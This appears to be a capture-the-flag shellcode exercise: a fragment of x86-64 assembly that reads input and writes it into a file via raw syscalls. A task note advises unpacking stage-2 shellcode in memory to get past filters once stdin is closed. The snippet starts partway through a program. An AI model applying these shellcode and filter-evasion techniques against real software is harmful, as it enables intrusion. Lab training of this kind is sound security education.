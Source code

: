 ```s
mov rdx,64
call read

push [rip+myflag]
mov rdi,rsp
mov rsi,1
call open

mov rdi,rax
mov rsi,rbp
mov rdx,64
call write

jmp exit

open:
# open(path, NULL);
push rbp
mov rbp, rsp
mov rax, 2
syscall
pop rbp
ret

read:
# read(fd, buf, count)
push rbp
mov rbp, rsp
mov rax, 0
syscall
pop rbp
ret

write:
push rbp
mov rbp, rsp
mov rax, 1
syscall
pop rbp
ret

exit:
mov rax, 60
xor rdi, rdi
syscall

myflag:
	.string "myflag"

flag:
	.string "/flag"
```
Task:
This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need
to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.
